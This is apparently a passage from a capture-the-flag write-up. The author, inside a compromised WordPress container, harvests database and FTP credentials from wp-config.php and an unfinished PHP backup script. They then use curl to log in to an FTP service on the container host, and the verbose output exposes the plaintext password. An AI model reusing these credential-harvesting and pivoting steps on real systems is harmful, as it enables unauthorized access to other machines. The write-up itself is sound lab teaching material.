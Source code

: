 ```
-rw-r--r-- 1 www-data www-data 3198 Jul 23 14:27 /var/www/html/wp-config.php                                                                                                                                                                
define( 'DB_NAME', 'exampledb');                                                
define( 'DB_USER', 'exampleuser');
define( 'DB_PASSWORD', 'examplepass');
define( 'DB_HOST', 'db');
```
I also found credentials for an ftp server on `/var/www/html/ftp_backup.php`. It appears that this file has not yet been completed.

```php
<?php
/* 
    Todo: I need to finish coding this database backup script.
          also maybe convert it to a wordpress plugin in the future.
*/
$dbFile = 'db_backup/backup.sql';
$ftpFile = 'backup.sql';

$username = "backupmgr";
$password = "******************";()

$ftp = ftp_connect("172.20.0.1"); // todo, set up /etc/hosts for the container host

if( ! ftp_login($ftp, $username, $password) ){
    die("FTP Login failed.");
}

$msg = "Upload failed";
if (ftp_put($ftp, $remote_file, $file, FTP_ASCII)) {
    $msg = "$file was uploaded.\n";
}

echo $msg;
ftp_close($conn_id); 
```

Also, from this comment I understand that we are inside a container.

```php
$ftp = ftp_connect("172.20.0.1"); // todo, set up /etc/hosts for the container host
```

Since the `ftp` command is not installed on the machine, I searched on internet for alternatives ways to connect to an ftp server, and I remembered that I can do this using the `curl` command. So I found that on the ftp server there is an empty folder called `files/`.

```
$ curl -v -s -P- 'ftp://backupmgr:******************@172.20.0.1/'
* Expire in 0 ms for 6 (transfer 0x55c2f1276f50)
*   Trying 172.20.0.1...
* TCP_NODELAY set
* Expire in 200 ms for 4 (transfer 0x55c2f1276f50)
* Connected to 172.20.0.1 (172.20.0.1) port 21 (#0)
< 220 Welcome to Jeff's FTP service.
> USER backupmgr
< 331 Please specify the password.
> PASS SuperS1ckP4ssw0rd123!
< 230 Login successful.
> PWD
< 257 "/" is the current directory
* Entry path is '/'
> EPRT |1|172.20.0.6|34181|
* ftp_perform ends with SECONDARY: 1
< 200 EPRT command successful. Consider using EPSV.
```